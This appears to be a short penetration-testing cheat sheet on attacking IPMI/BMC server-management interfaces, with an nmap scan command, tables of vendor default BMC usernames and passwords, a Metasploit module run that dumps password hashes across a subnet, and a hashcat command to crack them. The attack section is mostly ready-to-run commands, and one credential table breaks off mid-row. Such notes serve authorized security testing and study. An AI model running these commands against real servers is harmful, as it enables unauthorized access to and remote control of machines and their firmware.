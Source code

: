 hardware monitoring protocol
- Danger: attacker can power off, reboot, or control server BIOS remotely.
### EXPLOITS
If default credentials do not work to access a BMC, we can turn to a [flaw] in IPMI 2.0.
that allows retrieving all users password hashes


### Footprinting

Check version:
```

sudo nmap -sU -p 623 --script ipmi-version <IP>
```


Default credentials:

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|


|Product Name|Default Username|Default Password|
|---|---|---|
|**HP Integrated Lights Out (iLO)**|Administrator|<factory randomized 8-character string>|
|**Dell Remote Access Card (iDRAC, DRAC)**|root|calvin|
|**IBM Integrated Management Module (IMM)**|USERID|PASSW0RD (with a zero)|
|**Fujitsu Integrated Remote Management Controller**|admin|admin|
|**Supermicro IPMI (2.0)**|ADMIN|ADMIN|
|**Oracle/Sun Integrated Lights Out Manager (ILOM)**|root|changeme|
|**ASUS iKVM BMC**|
### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval
```

msf> use auxiliary/scanner/ipmi/ipmi_dumphashes**
set rhosts 10.0.0.0/24
set THREADS 256
#set OUTPUT_JOHN_FILE out.john
#set OUTPUT_HASHCAT_FILE out.hashcat
run
```
https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### crack retrieved hashes
`hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`